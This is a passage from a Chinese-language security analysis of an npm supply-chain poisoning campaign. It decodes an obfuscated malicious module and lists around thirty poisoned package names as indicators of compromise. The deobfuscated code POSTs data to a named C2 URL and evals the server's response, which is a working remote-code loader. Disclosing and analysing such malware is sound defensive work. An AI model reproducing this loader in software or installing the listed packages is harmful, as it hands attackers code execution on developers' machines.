 ```
 
//
eslint-disable-next-line no-eval
module.exports = () => require(hl[1])[[hl[2]]](hl[3], data, { [hl[4]]: { [hl[5]]: hl[6] } })[[hl[7]]](r => eval(r.data)).catch(() => {})
```  
  
投毒者使用的C2服务器地址被编码嵌入到hl数组中，通过字符解码后，还原出hl中隐藏的真实数据如下所示：  
```
[
 'require',
 'axios',
 'post',
 'https://ip-check-api.vercel.app/api/ipcheck/703',
 'headers',
 'x-secret-header',
 'secret',
 'then'
]
```  
  
最终  
该恶意模块导出函数的真实代码  
还原为  
如下所示：  
```
module.exports = () => require('axios')['post']('https://ip-check-api.vercel.app/api/ipcheck/703', data, {'headers':{'x-secret-header':'secret'}})['then'](r => eval(r.data)).catch(() => {})
```  
  
  
3  
  
**恶意包信息**  
  
  
  
  
该pino系列投毒所涉及的恶意NPM包信息（purl格式）汇总如下：  
```
pkg:npm/router-parse@1.0.1
pkg:npm/vite-plugin-purify@2.3.4
pkg:npm/nextjs-insight@1.1.0
pkg:npm/https-parse@2.0.1
pkg:npm/vite-plugin-svgn@1.6.8
pkg:npm/jsons-pack@7.9.4
pkg:npm/vite-plugin-style-svg@2.3.4
pkg:npm/motion-exts@1.0.1
pkg:npm/react-logs@6.1.2
pkg:npm/node-loggers@0.0.2
pkg:npm/node-loggers@3.3.1
pkg:npm/style-beautify-plugins@4.0.0
pkg:npm/resize-plugins@1.7.2
pkg:npm/vite-config-pretty-js@2.14.8
pkg:npm/vite-tsconfig-pretty@2.6.7
pkg:npm/recover-plugins@1.0.0
pkg:npm/wise-plugins@2.2.9
pkg:npm/trip-plugins@1.7.5
pkg:npm/zeal-plugins@1.0.0
pkg:npm/stylelist-plugins@1.5.2
pkg:npm/wrap-plugins@1.0.4
pkg:npm/yellow-plugins@2.5.7
pkg:npm/setting-plugins@3.0.5
pkg:npm/support-plugins@1.1.4
pkg:npm/react-loggers@6.9.1
pkg:npm/logs-buffer@6.14.8
pkg:npm/react-youtube-dom@10.14.0
pkg:npm/react-youtube-dom@10.15.0
```